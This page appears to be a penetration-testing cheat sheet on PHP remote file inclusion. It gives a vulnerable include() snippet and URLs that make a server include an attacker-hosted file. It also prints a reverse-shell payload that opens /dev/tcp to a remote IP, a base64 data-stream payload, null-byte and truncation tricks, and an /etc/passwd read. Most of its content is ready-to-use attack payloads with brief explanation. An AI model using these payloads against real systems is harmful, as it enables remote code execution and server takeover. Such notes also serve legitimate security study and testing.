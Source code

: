 # Remote File Inclusion

A remote file inclusion vulnerability lets the attacker execute a script on the target-machine even though it is not even hosted on that machine.  RFI's are less common than LFI. Because in order to get them to work the developer must have edited the `php.ini` configuration file.

## Direct Remote Include

Consider an unsanitized parameter:

```
$incfile = $_REQUEST["file"];
include($incfile.".php");
```

Now what you can do is to include a file that is not hosted on the victim-server, but instead on the attackers server.

```
http://example.com/index.php?page=http://attackerserver.com/evil.txt
```

And evil.txt will look like something like this:

```
<?php echo shell_exec("whoami");?>

# Or just get a reverse shell directly like this:
<?php echo system("0<&196;exec 196<>/dev/tcp/10.11.0.191/443; sh <&196 >&196 2>&196"); ?>
```

So when the victim-server includes this file it will automatically execute the commands that are in the evil.txt file. And we have a RCE.

## Data Filters

This only applies for PHP &gt; 5.2 with allow\\_url\\_include enabled.  By providing a php script encoded within base64, we can use the data stream filter to potentially execute PHP code in the event of an RFI.  The below is an encoded `phpinfo()`:

```
http://example.com/index.php?file=data://text/plain;base64,PD8gcGhwaW5mbygpOyA/Pg==
```

## PHP Input

## Fixing Extensions

Before php version 5.3 add the nullbyte `%00` to avoid appending `.php` and/or terminate the string to bypass url filtering.

If it does not work you can also add a `?`, this way the rest will be interpreted as url parameters.

Truncation of the string can also work depending on any environments this may be passed through:

```
http://example.com/index.php?page=/etc/passwd..............................
http://example.com/index.php?page=http://mysite.com/AAAAAAAAAAAAAAAAAAAAAAAAAAAA.php
```

## References

[https://www.idontplaydarts.com/2011/03/php-remote-file-inclusion-command-shell-using-data-stream/](https://www.idontplaydarts.com/2011/03/php-remote-file-inclusion-command-shell-using-data-stream/)



